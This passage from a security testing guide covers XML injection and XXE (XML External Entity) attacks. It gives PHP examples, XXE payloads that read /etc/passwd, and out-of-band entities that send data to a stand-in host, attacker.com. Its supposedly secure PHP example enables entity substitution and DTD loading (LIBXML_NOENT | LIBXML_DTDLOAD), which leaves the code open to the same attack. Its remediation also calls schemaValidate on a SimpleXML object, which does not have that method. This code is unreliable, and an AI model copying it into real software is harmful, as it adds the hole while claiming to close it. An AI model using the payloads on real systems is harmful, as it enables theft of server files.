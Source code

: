 **Example Vulnerable Code (PHP)**:
```php
$xml = simplexml_load_string($_POST['xml']);
$role = $xml->role;
```
Test: `<user><name>admin</name><role>admin</role></user>`
Result: Sets role to admin.

**Example Secure Code (PHP)**:
```php
$xml = simplexml_load_string($_POST['xml'], null, LIBXML_NOENT | LIBXML_DTDLOAD);
if (!preg_match('/^[a-zA-Z0-9]+$/', $xml->name)) die("Invalid input");
```
Test: No role change.

**Remediation**:
- Use XML schema validation:
  ```php
  libxml_use_internal_errors(true);
  $xml->schemaValidate('schema.xsd');
  ```
- Disable entity expansion:
  ```php
  libxml_disable_entity_loader(true);
  ```

**Tip**: Save modified data evidence in a report.

### 3. Test for XML External Entity (XXE) Attacks

**Objective**: Check if the application processes external entities to access server resources.

**Steps**:
1. Inject XXE payloads:
   - Use Burp:
     ```http
     POST /api HTTP/1.1
     Host: example.com
     Content-Type: application/xml
     <?xml version="1.0"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>
     ```
   - Use HTTPie with file:
     ```bash
     echo '<?xml version="1.0"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>' > payload.xml
     http POST http://example.com/api Content-Type:application/xml @payload.xml
     ```
2. Check responses:
   - Look for sensitive data (e.g., `/etc/passwd` contents).
   - Test network-based XXE: `<!ENTITY xxe SYSTEM "http://attacker.com/data">`.
3. Test blind XXE:
   - Use out-of-band (OOB) payloads:
     ```xml
     <!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://attacker.com/%data;"> %xxe;]>
     ```
